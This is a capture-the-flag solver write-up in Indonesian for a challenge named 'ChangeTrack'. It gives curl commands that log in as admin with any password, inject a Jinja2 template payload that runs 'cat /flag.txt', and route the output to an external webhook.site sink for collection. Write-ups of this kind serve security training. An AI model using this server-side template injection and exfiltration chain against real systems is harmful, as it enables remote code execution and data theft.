

# ChangeTrack — Eksploitasi / Solver

[← Overview](48-changetrack.md) · [Index](index.md)

## 3.1 Strategi

- Login ke workspace admin.
- Ubah manifest watcher agar template mengeksekusi `cat /flag.txt`.
- Arahkan `webhook_url` ke sink eksternal yang bisa dibaca (webhook.site).
- Picu dispatch dan polling capture.

## 3.2 Langkah exploit (live)

1. Login:

```bash
BASE=http://s1.nfx.my.id:40359
curl -sS -c cj -X POST \
  -d 'email=admin@changetrack.local&password=anything' "$BASE/login"
# HTTP 302 /dashboard
```

2. Siapkan sink webhook.site:

```bash
curl -sS -X POST https://webhook.site/token \
  -H 'Content-Type: application/json' -d '{}'
# simpan uuid
```

3. Simpan manifest SSTI (via form):

```bash
UUID=8509b71c-b1c7-4a12-baf7-26428e5b36a1
cat > manifest.yaml <<EOF
watcher:
  name: GitHub Release Price Tracker
  target_url: https://api.github.com/zen
  check_interval: 300
notification:
  webhook_url: https://webhook.site/$UUID
  format: yaml
  template: |
    FLAG1
    {{ cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}
EOF

curl -sS -b cj --data-urlencode 'name=GitHub Release Price Tracker' \
  --data-urlencode 'target_url=https://api.github.com/zen' \
  --data-urlencode 'yaml_manifest@manifest.yaml' \
  "$BASE/watchers/watch-01/edit"
# HTTP 302 /watchers/watch-01
```

4. Picu dispatch:

```bash
curl -sS -b cj -X POST "$BASE/watchers/watch-01/test"
# HTTP 302
```

5. Baca capture:

```bash
curl -sS "https://webhook.site/token/$UUID/requests?sorting=newest"
```

Script lengkap: `assets/changetrack/exploit_changetrack.py`.

### Evidence langkah ini



*Terminal evidence — `03-benign-save.txt` (arsip transkrip sesi solve).*
